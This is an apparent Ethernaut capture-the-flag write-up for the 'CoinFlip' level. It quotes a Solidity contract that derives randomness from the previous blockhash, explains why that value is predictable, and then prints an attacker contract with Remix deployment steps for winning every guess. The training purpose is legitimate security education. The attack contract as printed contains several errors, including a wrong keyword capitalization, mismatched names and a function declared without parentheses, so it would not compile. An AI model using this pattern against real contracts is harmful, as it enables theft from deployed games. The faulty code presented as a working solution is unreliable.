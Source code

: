 # CoinFlip

Welcome to my Ethernaut solution series!
Today we will discuss the vulnerailities and the solution to 3rd problem called CoinFlip.
This smart contract is a coin flipping game where the player needs to get a winning streak by guessing the outcome of a coin. 

The goal of this challenge is:
1. Guess the correct outcome 10 times in a row

Let's take a look of the contract code:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;   // consecutiveWins is the public uint variable holding the wins in a row for the player. 
                                    // We need to somehow increment this value to 10 to win this game.
  uint256 lastHash;   // lastHash is a variable which stores the value of a hash of the last block of our Rinkby blockchain.
                      // It is a state variable which is used to compare if the 
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;   // FACTOR is the variable holding a constant value
                      // which is used as a part of the process of creating entropy.

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
## Code review

### Constructor
- The variable consecutiveWins needs to be initialised to Zero for every instance of the game.

### Functions
- We just have one function in this problem. The flip function takes in a parameter which is a bool. This is the guess provided by the player to play the game and predict the outcome as heads or tails mapped to True or False.
- The function also returns a bool which specifies that the guess by the player was correct or not.
The first part 
- lets look at line 18:
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```
- Here block.number will give us the current block number, but as this block isnt mined yet, the contract cannot use it to create a hash. So we take the last mined block and compute a hash of that block number.
- Then we convert it to uint256 and store it in the variable blockValue. This variable is not needed in all instances, hence, it is not a state variable.
- Now the state variable lastHash is compared with blockValue to check if the last blockValue variable value is used again. The contract need to have a unique value everytime the function is called.

- on line 25, the value stored in the local variable blockValue is divided by the long number in the variable FACTOR. This action is done to increase the randomness. 
```solidity
uint256 coinFlip = blockValue.div(FACTOR);
```
- The value of coinFlip is compared to 1. If it matches then the variable side is True else False.
- Next it compares the the player's guess with the variable side. We need to match this variable 10 times in a row.

## Vulnerability

- The flawed way of using randomness is using globally accessible variables and functions to derive randomness. This means that anybody can see the values of these variables and by using them as seeds, recreate the random number. 
- In our case, the global variable used is blockhash(blockNumber). This gives the hash of the given block. In the code, blocknumber of the last mined block is used.
- The code also divides the hash with the constant FACTOR. Again this is a publicly accessible number which can be used while recreating the required random number.

## How to avoid the vulnerability

Avoid using variables such as timestamp, gasprice, difficulty, etc. for seeds while generating a random number.

## Solution
The hack for this problem is:
Write a new contract to recreate the flip value using the same globally accessible variables and call the public function flip from the CoinFlip contract. In the contract we will use the same variable value for FACTOR and access the globally available variables and replicate the coin's side to beat the game.

### Attack script
```solidity
Contract CoinFlipAttack {
	CoinFlip public victimContract;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

	constructor(address _victimContractAddr) public { 
		victimContract = coinFlip(_victimContractAddress);
	}
	
	function flip public returns (bool) {
		uint256 blockValue = uint256(blockhash(block.number - 1));
		uint256 coinFlip = uint256(blockValue/FACTOR);
		bool side = coinFlip == 1 ? true : false;

		victimContract.flip(side);
	}
}
```

### Code Review

- In the constructor we initialize the public variable victimContract with the instance of the object of the vulnerable contract we want to attack by passing the address of the instance of the Ethernaut contract. Note: While creating the object, we are not using the "new" keyword as we are not creating a new instance of the contract, but trying to access the already existing instance of the contract. 
- In the flip function we perform 2 steps: retrieve the publically accessible block number of the blockchain and divide the value by FACTOR.
- We check the value of the coinFlip variable and assign true or false value to our side variable.
- Then the flip function of the vulnerable contract is called using the instance earlier initialized and side variable is passed as an argument. 

## Attack execution

- Lets get the contract instance address of CoinFlip.sol from the Ethernaut console page first using the below command.
```solidity
await contract.address
```
- Compile and deploy both solidity codes, Coinflip.sol and CoinFlipAttack.sol on Remix IDE. while deploying CoinFlipAttack.sol, use the address retrieved in the above step.
- Once CoinFlipAttack is deployed, you will be able to see a flip function in the IDE. You will have to trigger that function. 
- This will generate the value for "side" variable same as that is created in the CoinFlip contract as the seed values used to create the random number.
- This side variable value is then sent to the flip function of CoinFlip function. This will execute the condition `if (side == _guess)` in the flip function and as we have the same guess as the side, we are always going to win!

## Conclusion
A smart contract should not use publically accessible numbers as seed to generate a random number. We could easily re-create the random number and provide a guess to the coin flop 100% of the time.